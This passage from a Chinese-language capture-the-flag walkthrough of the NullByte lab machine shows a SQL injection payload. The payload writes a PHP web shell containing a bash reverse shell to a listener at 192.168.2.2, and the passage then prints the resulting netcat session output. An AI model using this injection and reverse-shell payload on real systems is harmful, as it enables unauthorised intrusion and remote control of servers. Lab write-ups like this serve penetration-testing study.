     mysql_select_db('seth');
    $retval = mysql_query( $sql, $conn );
    if(! $retval )
    {
      die('Could not get data: ' . mysql_error());
    }
    while($row = mysql_fetch_array($retval, MYSQL_ASSOC))
    {
        echo "EMP ID :{$row['id']}  <br> ".
             "EMP NAME : {$row['user']} <br> ".
             "EMP POSITION : {$row['position']} <br> ".
             "--------------------------------<br>";
    } 
    echo "Fetched data successfully\n";
    mysql_close($conn);
    
    ?>
    
    ```

-   成功登陆`phpmyadmin`页面

-   ![image-20230729131622659](https://raw.githubusercontent.com/r0o983/images/main/image-20230729131622659.png)

### sql注入3

通过sql注入直接写入大马，写入到`/uploads/`文件夹下。

```SHELL
" union select "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.2/1234 0>&1 '\"); ?>","","" into outfile "/var/www/html/uploads/sh.php"; -- - 
```

- 在本机开启监听，访问上传点获得初始shell

- ```SHELL
  └─$ nc -nvlp 1234
  listening on [any] 1234 ...
  connect to [192.168.2.2] from (UNKNOWN) [192.168.2.3] 42151
  bash: cannot set terminal process group (574): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@NullByte:/var/www/html/uploads$ whoami
  whoami
  www-data
  www-data@NullByte:/var/www/html/uploads$ ip a
  ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
      link/ether 00:0c:29:98:28:e2 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.3/24 brd 192.168.2.255 scope global eth0
         valid_lft forever preferred_lft forever
      inet6 fe80::20c:29ff:fe98:28e2/64 scope link 
         valid_lft forever preferred_lft forever
  www-data@NullByte:/var/www/html/uploads$ uname -a
  uname -a
  Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
  www-data@NullByte:/var/www/html/uploads$    
  ```

- 
  ```